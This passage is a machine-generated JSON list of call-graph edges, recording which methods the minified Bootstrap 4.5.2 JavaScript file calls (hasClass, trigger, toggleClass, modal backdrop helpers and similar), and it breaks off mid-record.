{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_clearMenus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getParentFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "children"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toggleClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toggleClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getParentFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toggleClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toggleClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_detectNavbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "scheduleUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getParentFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getPlacement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getParentFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "children"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getParentFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_checkScrollbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_setScrollbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_adjustDialog"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_setEscapeEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_setResizeEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_showBackdrop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_showElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_setEscapeEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_setResizeEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_hideModal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_hideModal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_adjustDialog"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "reflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_enforceFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_triggerBackdropTransition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "handleUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_showBackdrop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_resetAdjustments"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_resetScrollbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "appendTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_triggerBackdropTransition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "reflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_removeBackdrop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getScrollbarWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "parseFromString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_setListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_isWithActiveTrigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_enter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_leave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_leave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_enter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": 